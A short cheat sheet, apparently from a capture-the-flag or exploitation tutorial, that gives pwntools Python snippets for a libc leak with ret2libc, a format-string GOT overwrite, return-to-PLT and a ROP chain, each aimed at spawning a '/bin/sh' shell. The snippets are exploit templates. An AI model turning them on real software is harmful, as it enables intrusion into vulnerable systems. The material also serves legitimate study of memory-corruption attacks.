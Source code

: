 ```python
# Leak a libc address
leak = u32(p.recvuntil(b"\x7f")[-4:])
libc_base = leak - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# Exploit
payload = flat(['A'*buffer_size, system_addr, 'JUNK', bin_sh_addr])
p.sendline(payload)
```

## GOT Overwrite

### Real Implementation

Overwrite `puts` GOT entry to redirect to `win` function:

```python
puts_got = binary.got['puts']
payload = fmtstr_payload(12, {puts_got: binary.symbols['win']})
```

## Return to PLT

### Real Implementation

If you need to call `system("/bin/sh")`:

```python
system_plt = binary.plt['system']
bin_sh = next(binary.search(b"/bin/sh"))

payload = b'A' * buffer_size + p32(system_plt) + p32(main_addr) + p32(bin_sh)
```

## Playing with ROP

### Real Implementation

Create a ROP chain to call `system("/bin/sh")`:

```python
rop = ROP(binary)
rop.system(next(binary.search(b'/bin/sh\x00')))
payload = flat(['A' * buffer_size, rop.chain()])
```

---


















